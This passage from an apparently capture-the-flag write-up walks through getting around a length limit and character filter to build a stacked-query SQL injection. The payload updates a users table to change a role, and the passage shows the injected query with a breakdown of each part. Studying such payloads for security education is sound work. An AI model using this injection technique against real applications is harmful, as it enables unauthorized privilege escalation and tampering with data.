 ```javascript
});
```

As we can see, the payload can't have `/` and `-` character, and the length must be less than 51.

Let's start with small. Can we bypass the length check? Sadly, it also validates the type must be `string`. So, we can't use tricks like passing an object or array like this:

```
url[]=payload_here
// -> url=['payload_here']
```

We also can't use character `-`, which is useful for commenting out the invalid syntax. To bypass this, maybe we could use the multi-line comment syntax, `/* ... */`. For the `/` character, our payload shouldn't have this character, so we can safely ignore this. (*Definitely not foreshadowing :(*)

Now, our goal is to insert a new user record to table `tables` or update our user record, so that we'll have role `user`. For inserting a new record, I don't think we have enough payload length to do so. Let's go with the update route first!

After countless time of debugging, I came up with the following payload:

```sql
');UPDATE users SET role="user" WHERE id=1;SELECT
```

After the injection, the query will become this:

```sql
INSERT INTO logs
VALUES('');UPDATE users SET role="user" WHERE id=1;SELECT');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET role="user" WHERE id=1;SELECT'
LIMIT 1;
```

Beautified:

```sql
INSERT INTO logs VALUES('');
UPDATE users SET role="user" WHERE id=1;
SELECT');
SELECT *
FROM logs
WHERE entry = '');UPDATE users SET role="user" WHERE id=1;SELECT' LIMIT 1;
```

- `');`: Close the quote and the `VALUES` clause. As well as ending the `INSERT INTO` query
- `UPDATE users SET role="user" WHERE id=1;`: Update table `users` column `role` to `user`, where the user ID is `1`
- `SELECT'`: Start a new `SELECT` clause and makes everything after it to be a string

Note: Our injected `UPDATE` clause's strings must be double quote, not single quote. Otherwise it'll break the syntax in the `SELECT` clause:

[https://sqliteonline.com/](https://sqliteonline.com/):
